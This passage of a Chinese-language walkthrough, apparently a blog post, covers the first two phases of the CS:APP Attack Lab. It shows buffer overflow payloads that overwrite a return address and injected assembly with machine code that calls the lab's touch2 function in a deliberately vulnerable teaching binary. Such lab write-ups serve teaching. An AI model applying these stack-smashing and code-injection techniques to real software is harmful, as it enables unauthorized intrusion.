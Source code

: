 复制

前四十位是啥都不重要，后面四位按照 little endian 的规则逆向填上地址就好（注意这里为了排版用了换行，实际上都应该在一行，用空格分开），这样就改写了属于原来的返回地址。

接着我们把这个字符文件转换成字节码 `./hex2raw < p1.txt > p1r.txt`，最后执行一下 `./ctarget -i p1r.txt`，就可以看到结果了：

![成功完成第一关](https://wdxtub.com/images/14554180666014.jpg)

从第一关我们就学到了如何利用缓冲区来调用另外的过程，接下来我们来看第二关。

## 第二阶段

第二关中需要插入一小段代码，`ctarget` 中的 `touch2` 函数的 C 语言如下：

```
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

复制

根据代码就可以看出来，我们需要把自己的 cookie 作为参数传进去，这里需要把参数放到 `%rdi` 中，只使用 `ret` 来进行跳转。

所以第一步，我们先来写需要注入的代码(文件 p2.s)：

```
mov $0x45374fee,%rdi # set my cookie as the first parameter
pushq $0x401860
ret
```

复制

这里首先把参数传入到 `%rdi` 寄存器中，然后把 `touch2` 函数的起始地址压入栈中，最后返回，这样就可以跳转到 `touch2`。然后转换成对应的机器码

```
gcc -c p2.s
objdump -d p2.o > p2.byte
```

复制

得到 p2.byte 文件的内容是

```
p2.o:     file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 ee 4f 37 45 mov    $0x45374fee,%rdi
   7:	68 60 18 40 00       pushq  $0x401860
   c:	c3                   retq
```
